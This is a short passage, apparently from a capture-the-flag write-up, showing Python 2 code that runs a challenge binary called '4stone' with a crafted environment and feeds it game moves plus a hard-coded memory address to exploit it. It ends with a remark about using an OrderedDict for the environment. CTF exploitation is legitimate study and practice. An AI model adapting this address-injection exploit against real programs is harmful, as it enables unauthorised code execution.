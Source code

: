     a = subprocess.Popen(["/home/4stone/4stone", "4022d6d0"], stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE, env=e)
    
    addr = 0x40156EBD
    
    win = '\n\nll\nl\nh\nh\n\n'
    win += "%08x\n" % (addr, )
    
    print repr(win)
    a.communicate(win)

Side Note: I used an OrderedDict because I was worried that my environment entries would get reordered. I'm not sure if it actually fixed anything.

